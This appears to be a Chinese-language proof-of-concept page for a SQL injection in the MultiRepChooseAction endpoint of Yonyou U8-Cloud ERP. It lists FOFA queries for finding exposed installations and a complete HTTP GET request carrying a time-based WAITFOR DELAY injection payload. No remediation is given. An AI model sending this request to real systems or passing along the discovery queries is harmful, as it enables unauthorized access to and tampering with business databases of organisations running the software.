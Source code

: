 # 用友U8-Cloud系统接口MultiRepChooseAction存在SQL注入漏洞

用友U8-Cloud系统接口MultiRepChooseAction存在SQL注入漏洞，允许攻击者通过恶意构造的SQL语句操控数据库，从而导致数据泄露、篡改或破坏，严重威胁系统安全。

## fofa

```java
app="用友-U8-Cloud"
title=="U8C"
```

## poc

```javascript
GET /service/~iufo/com.ufida.web.action.ActionServlet?action=nc.ui.iufo.web.reference.MultiRepChooseAction&method=execute&taskId=1%27);WAITFOR+DELAY+%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```

![image-20240908193426080](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409081934138.png)